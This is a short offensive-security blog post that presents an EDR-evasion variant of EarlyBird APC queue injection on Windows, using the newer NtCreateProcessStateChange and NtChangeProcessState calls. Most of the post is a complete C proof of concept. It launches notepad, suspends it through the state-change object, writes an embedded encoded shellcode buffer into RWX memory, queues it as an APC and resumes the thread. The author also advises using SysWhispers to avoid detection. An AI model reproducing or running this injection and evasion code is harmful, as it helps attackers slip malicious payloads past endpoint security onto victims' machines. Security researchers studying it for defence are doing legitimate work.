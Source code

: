 ```yaml
---
layout: post
title: EarlyBird APC Queue Injection With a ProcessStateChange Twist
tags: []
---
```




Relatively recently, Yarden Shafir made a blog post about a new way to evade the EDRs for process injection. In the blog post, Yarden mentions that there are new added features in the recent Windows 10 build(Insider) and Windows 11 as well. Some of them are NtCreateProcessStateChange/ NtCreateThreadStateChange and NtChangeProcessState/NtChangeThreadState.

These WINAPI calls were added to resolve the issue of what happens if a process suspends a thread and then terminates it before resuming it. To quote Yarden:

Unless some other part of the system realizes what happened, the thread will remain suspended forever and will never resume its execution. To solve that, this new feature allows suspending and resuming threads and processes through the new object types, which will keep track of the suspension state of the threads or processes. That way, when the object is destroyed (for example, when the process that created it is terminated), the system will reset the state of the target process or thread by suspending or resuming it as needed.

Yarden has made a PoC at the bottom of the blog potentially continuing a suspended thread, due to these aforementioned new WINAPI calls, a suspended application can now resume or reset. By using DuplicateHandle and getting the second notepad a handle to the first suspended notepad, the suspended notepad remains as is until the second notepad closes and resumes the first notepad without using ResumeThread.


Evading common process injection patterns for WINAPI calls can definitely trick some EDRs. Although I took a different approach in my PoC and followed the pattern of EarlyBird APC Queue Injection and instead of creating a suspended process, allocate shellcode and ResumeThread, I created a process, suspended it with NtCreateProcessStateChange, allocated the shellcode and then changed the suspended state back with NtChangeProcessState to continue the primary thread.

Obviously the below code will be detected due to the shellcode, VirtualAlloc, WriteProcessMemory, QueueUserAPC but SysWhispers can help you replace that will the ntdll's WINAPI calls for better results.

PoC:

wp:image {"id":342,"sizeSlug":"large","linkDestination":"media"}

[![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

/wp:image


wp:code

#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

typedef NTSTATUS(__fastcall* NtCreateProcessStateChange)(OUT PHANDLE StateChangeHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN HANDLE ProcessHandle, IN INT Unknown);
typedef NTSTATUS(__fastcall* NtChangeProcessState)(IN HANDLE StateChangeHandle, IN HANDLE ProcessHandle, IN ULONG Action, IN ULONG64 Unknown1, IN ULONG64 Unknown2, IN ULONG64 Unknown3);

void main()
{
    HANDLE stateChangeHandle;
    PROCESS_INFORMATION procInfo;
    PROCESS_INFORMATION procInfo2;
    STARTUPINFO startInfo;
    BOOL result;
    NTSTATUS status;
    NtCreateProcessStateChange	pNtCreateProcessStateChange;
    NtChangeProcessState        pNtChangeProcessState;
    HMODULE                     hNtdll;
    unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x4f\x6c\xaf\x32\x7e\xe4\xec\x88\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb3\x24\x2c\xd6\x8e\x0c\x2c\x88\x4f\x6c\xee\x63\x3f\xb4\xbe\xd9\x19\x24\x9e\xe0\x1b\xac\x67\xda\x2f\x24\x24\x60\x66\xac\x67\xda\x6f\x24\x24\x40\x2e\xac\xe3\x3f\x05\x26\xe2\x03\xb7\xac\xdd\x48\xe3\x50\xce\x4e\x7c\xc8\xcc\xc9\x8e\xa5\xa2\x73\x7f\x25\x0e\x65\x1d\x2d\xfe\x7a\xf5\xb6\xcc\x03\x0d\x50\xe7\x33\xae\x6f\x6c\x00\x4f\x6c\xaf\x7a\xfb\x24\x98\xef\x07\x6d\x7f\x62\xf5\xac\xf4\xcc\xc4\x2c\x8f\x7b\x7f\x34\x0f\xde\x07\x93\x66\x73\xf5\xd0\x64\xc0\x4e\xba\xe2\x03\xb7\xac\xdd\x48\xe3\x2d\x6e\xfb\x73\xa5\xed\x49\x77\x8c\xda\xc3\x32\xe7\xa0\xac\x47\x29\x96\xe3\x0b\x3c\xb4\xcc\xc4\x2c\x8b\x7b\x7f\x34\x8a\xc9\xc4\x60\xe7\x76\xf5\xa4\xf0\xc1\x4e\xbc\xee\xb9\x7a\x6c\xa4\x89\x9f\x2d\xf7\x73\x26\xba\xb5\xd2\x0e\x34\xee\x6b\x3f\xbe\xa4\x0b\xa3\x4c\xee\x60\x81\x04\xb4\xc9\x16\x36\xe7\xb9\x6c\x0d\xbb\x77\xb0\x93\xf2\x7a\xc4\xe5\xec\x88\x4f\x6c\xaf\x32\x7e\xac\x61\x05\x4e\x6d\xaf\x32\x3f\x5e\xdd\x03\x20\xeb\x50\xe7\xc5\x14\x59\x2a\x19\x2d\x15\x94\xeb\x59\x71\x77\x9a\x24\x2c\xf6\x56\xd8\xea\xf4\x45\xec\x54\xd2\x0b\xe1\x57\xcf\x5c\x1e\xc0\x58\x7e\xbd\xad\x01\x95\x93\x7a\x51\x1f\x88\x8f\xa6\x2a\x14\xca\x32\x7e\xe4\xec\x88";
    SIZE_T shellSize = sizeof(buf);
    stateChangeHandle = nullptr;
    ZeroMemory(&startInfo, sizeof(startInfo));
    startInfo.cb = sizeof(startInfo);
    result = CreateProcess(L"C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&startInfo,&procInfo);
    HANDLE victimProcess = procInfo.hProcess;
    HANDLE threadHandle = procInfo.hThread;
    hNtdll = GetModuleHandle(L"ntdll.dll");
    pNtCreateProcessStateChange = (NtCreateProcessStateChange)GetProcAddress(hNtdll, "NtCreateProcessStateChange");
    status = pNtCreateProcessStateChange(&stateChangeHandle, MAXIMUM_ALLOWED, NULL, procInfo.hProcess, 0);
    pNtChangeProcessState = (NtChangeProcessState)GetProcAddress(hNtdll, "NtChangeProcessState");
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 0, NULL, 0, 0);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 1, NULL, 0, 0);
}

/wp:code


Sources:



EarlyBird APC Queue Injection - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection


NtCreateProcessChangeState Blog Post - https://windows-internals.com/thread-and-process-state-change/


NtCreateProcessChangeState gist example - https://gist.github.com/DownWithUp/80a3b7b6a198788e79d8b508463e9384
